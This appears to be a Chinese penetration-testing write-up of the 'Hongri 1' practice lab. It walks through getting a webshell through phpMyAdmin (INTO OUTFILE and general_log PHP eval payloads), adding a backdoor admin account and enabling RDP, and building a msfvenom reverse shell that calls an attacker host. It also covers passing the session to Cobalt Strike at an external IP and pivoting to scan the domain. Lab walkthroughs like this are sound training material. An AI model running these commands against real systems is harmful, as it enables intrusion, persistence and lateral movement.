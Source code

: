 # 红日1靶场(一)

搭建环境过程省略

拓扑图
ip

dc 192.168.52.141

成员 192.168.52.138

web 192.168.72.4 192.168.52.143



### 信息收集

2.1扫描主机

```
netdiscover
```



![image-20200812155453582](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200812155453582.png)

2.2探测端口

```
nmap -sC -sV -Pn -p 1-65525 192.168.72.4          //-sC根据端口识别服务 -sV版本探测 -Pn不检测主机存活 -p扫描指定端口
```

![image-20200812155928191](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200812155928191.png)

2.3打开发现一个php探针模块 滑到最下面 发现可以连接mysql数据库 默认密码 root root

另外还有一个,也可以尝试getshell

http://192.168.72.4/yxcms/index.php?r=admin/index/index

![image-20200812160516081](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200812160516081.png)

![image-20200812160756335](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200812160756335.png)

![image-20200812160733487](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200812160733487.png)

2.4利用phpadmin getshell 有两种方法into outfile 和 利用日志文件写入

第一种 利用条件 需要知道网站绝对路径 和root权限 [其实方法是对的,鉴于mysql的新特性而言等会补充]

```sql
select  '<?php eval($_POST[cmd]); ?>'  into outfile  'C:/phpStudy/WWWshell.php';
```

提示这个

![image-20200813083217060](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200813083217060.png)

第二种利用mysql日志写入

```mysql
#查看日志状态
show variables  like  '%general%';
#这里解释一下,当开启general时,所执行的sql语句就会生成对应的文件中
SET GLOBAL general_log='on'
SET GLOBAL general_log_file='C:/phpStudy/www/233.php'
SELECT '<?php eval($_POST["cmd"]);?>'
```

![img](https://mmbiz.qpic.cn/mmbiz_png/ddqrZtAEBOiaW4QMLSzMxVTk7RcjliaATzpOFVmVia9x0kf4tVjNoIic35OxTicDgXmNOhR7I992B4eRqRQutw9IjkQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

**![image-20200813100723299](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200813100723299.png)**

2.5这里我们已经getshell并连接上了.开始一波内网信息收集

![image-20200813102958077](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200813102958077.png)

2.5因为是练习,我们在尝试一下第二种getshell的方法



# 内网渗透

3.1尝试远程登录

查看当前用户权限,如果渗透进去发现是Windows系统的话,首先尝试连接他的远程桌面,所以再看一下3389端口开放情况

![image-20200813103313458](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200813103313458.png)

```shell
#运行下面的命令,有回显说明打开的,没有回显说明关闭的
netstat -an | find "3389"
#运行下面的命令,打开3389端口,八个0是打开 八个一是关闭
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

```

3.2添加一条用户,尝试利用3389远程登录--发现连接不上,估计和防火墙,有关系,可能有白名单也说不定

```powershell
net user test 1234.com /add
net localgroup administrators test /add
net user test
```

![image-20200813104338630](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200813104338630.png)

![image-20200813104945055](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200813104945055.png)

3.3使用msf制作木马利用webshell上传执行

```bash
#制作木马
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.72.5 LPORT=7521 -f exe > msf.exe
#msf反弹shell
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.72.5
msf5 exploit(multi/handler) > set lport 7521
msf5 exploit(multi/handler) > exploit 
#msf和cs联动 cs就会接受到shell
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set DisablePayloadHandler true 
set lhost 120.92.211.101
set lport 80
set session 1
exploit 

```

![image-20200814201541186](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200814201541186.png)

![image-20200814201811713](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200814201811713.png)

![image-20200814201939532](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200814201939532.png)

3.4 利用cs打开beacon界面 输入命令--思路差不多就是 域是什么 域里面几个用户 域几台主机 域控是谁 webIp

```powershell
#内网信息收集常用命令
net time /domain        #查看时间服务器，判断主域，主域服务器都做时间服务器
net user /domain        #查看域用户
net view /domain        #查看有几个域
ipconfig /all 　　　　　  #查询本机IP段，所在域等 
net config Workstation  #当前计算机名，全名，用户名，系统版本，工作站域，登陆域 
net user 　　　　　　　   #本机用户列表
net group "domain computers" /domain   #查看域内所有的主机名 
net group "domain admins" /domain      #查看域管理员 
net group "domain controllers" /domain #查看域控
net localhroup administrators          #本机管理员[通常含有域用户]
net user 用户名 /domain                 #获取指定用户的账户信息  
net group /domain                      #查询域里面的工作组 
net group 组名 /domain                  #查询域中的某工作组

```

```
域 owa.god.org
域中用户 administrator ligang liukaifeng01 
域中主机 
域控是 owa 192.168.52.138 主机有三台 
自己ip 192.168.72.4 192.168.52.142
```

![image-20200814202248739](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200814202248739.png)

![image-20200814202515714](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200814202515714.png)

# 三 横向移动

​    因为我们目前就只拿下了外网,我们的最终目标是拿下域控

3.1添加路由

```
meterpreter > run autoroute -s 192.168.52.0/24

```

![image-20200814210553057](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200814210553057.png)

3.2添加代理步骤

```
use auxiliary/server/socks4a
run
编辑配置文件
vim /etc/proxychains.conf
#可以这样测试一下,不建议用ping 可能ping不通
msf5 auxiliary(server/socks4a) > proxychains curl http://192.168.52.143

```

![image-20200814210926814](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200814210926814.png)

![image-20200814211154891](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200814211154891.png)

3.3开始对内网主机渗透

```
因为信息收集的时候内网是加上外网这台主机,有三台主机下面先对141这台主机一个渗透测试
(1)先扫描一下
msf5 auxiliary(server/socks4a) > proxychains nmap -p 1-1000 -Pn -sT 192.168.52.141
(2)开放了445端口 使用利用 扫描系统版本,发现是2003
use auxiliary/scanner/smb/smb_version

```

![image-20200814230443797](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200814230443797.png)

![image-20200814230924286](C:\Users\18532\AppData\Roaming\Typora\typora-user-images\image-20200814230924286.png)

